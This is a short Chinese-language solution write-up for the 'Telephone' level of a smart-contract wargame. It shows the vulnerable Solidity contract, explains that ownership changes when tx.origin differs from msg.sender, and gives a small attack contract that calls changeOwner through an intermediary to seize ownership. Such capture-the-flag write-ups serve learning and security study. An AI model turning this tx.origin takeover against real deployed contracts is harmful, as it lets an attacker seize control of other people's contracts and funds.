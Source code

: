 # Telephone

> 获得下面合约来完成这一关

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## 攻击思路

更换合约owner只能通过changeOwner函数，当交易的发送者和交易的原始发送者不同时，发生owner变动。

[tx.origin vs msg.sender](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)

![msg_sender与tx_origin区别](./msg_sender与tx_origin区别.webp)

## 攻击合约

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface Telephone  {
    function changeOwner(address _owner) external;
}
contract Attack {

    Telephone constant private target = Telephone(0x6A8eF3240947966B468658fCadB54704dd037a16);

    function attack() public{
        target.changeOwner(msg.sender);
    }

}
```


